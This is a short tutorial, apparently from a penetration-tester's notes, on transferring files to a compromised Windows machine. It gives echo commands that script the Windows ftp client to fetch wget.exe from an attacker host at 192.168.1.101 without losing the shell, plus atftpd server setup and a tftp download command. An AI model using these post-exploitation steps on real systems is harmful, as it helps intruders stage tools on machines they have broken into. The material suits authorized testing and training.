 # Transferring files to windows

Transferring files to linux is usually pretty easy. We can use netcat, wget, curl, which most systems have as default. But windows does not have these tools.



## FTP

Most windows machines have a ftp-client included. But we can't use it interactively since that most  likely would kill our shell. So we have get around that. We can however run commands from a file. So what we want to do is to echo out the commands into a textfile. And then use that as our input to the ftp-client. Let me demonstrate.

On the compromised machine we echo out the following commands into a file

```
echo open 192.168.1.101 21> ftp.txt
echo USER asshat >> ftp.txt
echo ftp >> ftp.txt
echo bin >> ftp.txt
echo GET wget.exe >> ftp.txt
echo bye >> ftp.txt
ftp –v -n -s:ftp.txt
```

Of course you need to have a ftp-server configured with the user asshat.

## TFTP

A TFTP client is installed by default on windows machines up to Windows XP and Windows 2003. What is good about TFTP is that you can use it non-interactivly. Which means less risk of losing your shell.

Kali has a TFTP server build in.
You can server up some files with it like this

```
atftpd --daemon --port 69 /tftp
/etc/init.d/atftpd restart
```

Now you can put stuff in /srf/tftp and it will be served. Remember that TFTP used UDP. So if you run netstat it will not show it as listening. 

You can see it running like this

```
netstat -a -p UDP | grep udp
```

So now you can upload and download whatever from the windows-machine like this

```
tftp -i 192.160.1.101 GET wget.exe
```
